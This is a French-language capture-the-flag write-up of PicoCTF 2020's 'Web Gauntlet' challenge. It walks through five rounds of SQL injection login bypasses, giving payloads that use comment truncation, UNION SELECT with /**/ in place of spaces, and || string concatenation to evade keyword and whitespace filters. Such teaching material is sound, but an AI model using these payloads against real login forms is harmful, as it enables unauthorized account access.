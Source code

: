```yaml
---
layout: post
title: PicoCTF 2020 - Bypass de filtres SQL
subtitle: PicoCTF - Web Gauntlet - Web exploitation - SQLi 
gh-repo: 0xSs0rZ/0xSs0rZ.github.io
gh-badge: [star]
tags: [CTF, PicoCTF, Web Gauntlet, Bypass, SQL filters, SQLi, Write-Up]
comments: false
---
```


![Logo](/img/PicoCTF_logo.png){: .center-block :}

Web Gauntlet est un chall d'exploitation web proposé lors de la version 2020 de PicoCTF. Il s'agit d'un challenge plutôt classique où le but est de se loguer en tant qu'admin à l'aide d'injections SQL. Jusque là rien de bien nouveau... L'originalité de Web Gauntlet est toutefois qu'il faudra bypasser des filtres qui sont ajoutés à chaque niveau du chall pour complexifier les SQLi. 

![Description](/img/PicoCTF_1.png){: .center-block :}

![Sign In](/img/PicoCTF_2.png){: .center-block :}

Test avec `admin::admin`

![Test](/img/PicoCTF_3.png){: .center-block :}

`SELECT * FROM users WHERE username='admin' AND password='admin'`

Ref: [PayloadsAllTheThings - SQL injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

## Round 1

![Round1](/img/PicoCTF_4.png){: .center-block :}

Pour le ‘Round 1’ on ne peut pas utiliser ‘or’...

**Payload:** 

Username: `admin';-- test` 
Password: `test`

`SELECT * FROM users WHERE username='admin';-- test' AND password='test'`

{: .box-note}
; : ferme la requête
-- : ce qui est après est un commentaire

{: .box-warning}
Remarque: Pas d'espace avant l'appel au commentaire sinon bloque car considéré comme white space voir plus bas round 4

![Round1](/img/PicoCTF_5.png){: .center-block :}

## Round 2

![Round2](/img/PicoCTF_6.png){: .center-block :}

**Payload:** 

Username: `admin';` 
Password: `test`

`SELECT * FROM users WHERE username='admin';' AND password='test'`

![Round2](/img/PicoCTF_7.png){: .center-block :}

## Round 3

![Round3](/img/PicoCTF_8.png){: .center-block :}

Ça change rien, on utilise aucun de ces symboles :)

**Payload:**

Username: `admin';`
Password: `test`

SELECT * FROM users WHERE username='admin';' AND password='test'

![Round3](/img/PicoCTF_9.png){: .center-block :}

## Round 4

![Round4](/img/PicoCTF_10.png){: .center-block :}

On ne peut plus utiliser `admin`...

En général le premier utilisateur dans la table est admin

~~~
1 admin password
2 user1 password1
...
~~~

**Payload:**

Username: `bob' UNION SELECT * FROM users LIMIT 1;`
Password: `test`

`SELECT * FROM users WHERE username='bob' UNION SELECT * FROM users LIMIT 1;' AND password='test'`

{: .box-note}
LIMIT 1 limite au premier résultat

Ne fonctionne pas car contient des whitespace :(

on peut utiliser `/**/` à la place des espaces ce qui donne le payload suivant

**Paylod:**

`bob'/**/UNION/**/SELECT/**/*/**/FROM/**/users/**/LIMIT/**/1;`   

Ref: 
- [SQL injection bypassing common filters - Portswigger](https://portswigger.net/support/sql-injection-bypassing-common-filters)
- [SQL Injection Bypassing WAF - OWASP](https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF)

`SELECT * FROM users WHERE username='bob'/**/UNION/**/SELECT/**/*/**/FROM/**/users/**/LIMIT/**/1;' AND password='bob'/**/UNION/**/SELECT/**/*/**/FROM/**/users/**/LIMIT/**/1;'`     

![Round4](/img/PicoCTF_11.png){: .center-block :}

## Round 5

![Round5](/img/PicoCTF_12.png){: .center-block :}

'The double-pipe sequence || is a string concatenation operator on Oracle.'

Ref: [SQL injection - Union attacks - Portswigger](https://portswigger.net/web-security/sql-injection/union-attacks)

**Payload:** `adm'||'in';`

![Round5](/img/PicoCTF_13.png){: .center-block :}

**Poursuivez avec :** 

[- VulnHub - BossPlayersCTF](https://0xss0rz.github.io/2020-11-16-Vulnhub-BossPLayersCTF/)

[- Hack The Box - Cache](https://0xss0rz.github.io/2020-11-18-HTB-Cache/)

[- PicoCTF 2018 - Web Application](https://0xss0rz.github.io/2019-08-24-picoCTF-Web-Application-Write-Ups/)

[![CC-BY](https://mirrors.creativecommons.org/presskit/buttons/88x31/svg/by.svg)](https://creativecommons.org/licenses/by/4.0/)

This work is licensed under a [Creative Commons Attribution 4.0 International License](https://creativecommons.org/licenses/by/4.0/).
